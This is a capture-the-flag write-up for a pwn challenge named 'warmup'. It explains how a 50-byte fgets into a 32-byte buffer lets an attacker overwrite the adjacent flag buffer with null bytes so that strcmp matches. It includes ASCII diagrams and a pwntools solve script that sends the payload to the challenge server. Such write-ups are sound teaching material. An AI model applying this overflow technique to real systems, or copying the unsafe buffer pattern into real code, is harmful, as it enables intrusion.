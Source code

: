 # warmup

Category: pwn

Points: 316

Solves: 17

The following code is provided:

```c
#include <stdio.h>
int main() {
    char input[32];
    char flag[32];
    // read flag file
    FILE *f = fopen("flag", "r");
    fgets(flag, 32, f);
    fclose(f);
    // read the user's guess
    fgets(input, 0x32, stdin);
    // if user's guess matches the flag
    if (!strcmp(flag,input)) {
        puts("Predicted!");
        system("cat flag");
    } else puts("Your flag was wrong :(");
}
```

We observe that a buffer overflow occurs when `fgets(input, 0x32, stdin);` is executed. This is because `0x32 = 50`, but the buffer is only 32 bytes long. However, since the `flag` buffer is also 32 bytes long, we do not have enough bytes to overwrite `[rsp]` in order to control `$rip` in a ret2<anything\> attack, so we will need to think of an alternate solution.

The buffers `flag` and `input` are compared against each other using `strcmp`, and if they are equal, the flag is printed. However, without knowing the flag, how are we going to get these two buffers be equal??

We can use the buffer overflow to overwrite part of the `flag` buffer. However, we can only write the first 18 bytes of the buffer (50-32=18), so we can't just overwrite both buffers with 'a's. 

However, strings in C are null terminated - they end with a null byte, which has the value 0. So in C, the strings "flag\0aaaaa" and "flag\0bbbbb" will be `strcmp` equal to each other. Using this property, we can add a null byte before the 18th byte of the second buffer. This will 'trick' `strcmp` into thinking that the string in the second buffer has ended, while in fact there are another 12 bytes of flag in the buffer.

Here's a visual representation of the attack:

Layout of the 2 buffers:

```

0                          32                         64
┌──────────────────────────┬──────────────────────────┐
│                          │                          │
│        Input buffer      │        Flag buffer       │
└──────────────────────────┴──────────────────────────┘
```

What happens normally when a user enters stuff

```
0                          32                         64
┌──────────────────────────┬──────────────────────────┐   
│                          │                          │
│ Our input goes here!\0   │  IRS{THE_FLAG!!!!!}\0    │
└──────────────────────────┴──────────────────────────┘
```

Note: the \0 is a null byte. You can't see null bytes but we will use \0 to represent them

What happens when you enter more than 32 bytes of input (not to scale):

```
0                          32                         64
┌──────────────────────────┬──────────────────────────┐
│                          │                          │
│ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\0AG!!!!!}\0    │
└─────────────────────────────────────────────────────┘
```

The input buffer overflows and overwrites the start of the flag buffer. But we cannot overwrite everything!

The attack (not to scale):

```

0                          32                         64
┌──────────────────────────┬──────────────────────────┐
│                          │                          │
│   AAAAAAAAAAAAAA\0PADDINGAAAAAAAAAAAAAA\0!!!!}\0    │
└───▲──────────────▲───────▲──────────────▲───────────┘
    │    input     │       │    flag      │
    └──────────────┘       └──────────────┘
```

Since `strcmp` only compares `input` and `flag` up to the null byte, it thinks the 2 strings are equal and gives us the flag!

However, we must ensure that we have sufficient padding that the AAAAA.. lines up correctly with the start of the flag buffer.

## Solve script

```python

from pwn import *

e = ELF("./chal")
context.binary = e

def setup():
    #p = e.process()
    p = remote("halls.sieberrsec.tech",3476)
    return p
if __name__ == '__main__':
    p = setup()
    # For the first buffer: 16 'a's, a null byte and 15 bytes of padding -> 32 bytes in total
    # For the second buffer: 16 'a's and a null byte
    p.send(b"a"*16+b"\0"+b"\0"*15 + b"a"*16+b"\0")


    p.interactive()
```

## Comments

Idk why I decided to do ASCII art for this writeup, it kinda looks nice but quite pain to make. Hopefully it looks nice on github.
